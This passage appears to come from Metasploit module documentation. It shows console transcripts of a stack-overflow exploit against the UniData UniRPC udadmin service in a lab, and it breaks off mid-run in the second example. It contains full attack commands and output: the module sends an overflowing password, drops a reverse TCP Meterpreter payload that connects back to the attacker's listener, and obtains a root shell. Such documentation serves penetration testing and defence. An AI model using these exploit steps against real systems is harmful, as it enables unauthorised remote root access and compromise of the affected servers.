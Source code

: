 ```
[*] 10.0.0.198:31438 - Using the version number from UNIDATA_VERSION for targeting: 8.2.4
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as iLlQgwIwNzxAxg with a stack-overflowing password
[*] 10.0.0.198:31438 - Payload sent
[*] Sending stage (24772 bytes) to 10.0.0.198
[*] Meterpreter session 2 opened (10.0.0.227:4444 -> 10.0.0.198:54568) at 2023-04-11 09:46:03 -0700

meterpreter > getuid
Server username: root
```

### Version 8.2.4 with auto-detection + unix dropper payload

```
msf > use exploit/linux/misc/unidata_udadmin_password_stack_overflow
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix Command
    1   Linux Dropper


msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set TARGET 1
TARGET => 1

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set LHOST ens160
LHOST => ens160

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set VERBOSE true
VERBOSE => true

msf exploit(linux/misc/unidata_udadmin_password_stack_overflow) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Using the version number from earlier for targeting: 8.2.4
```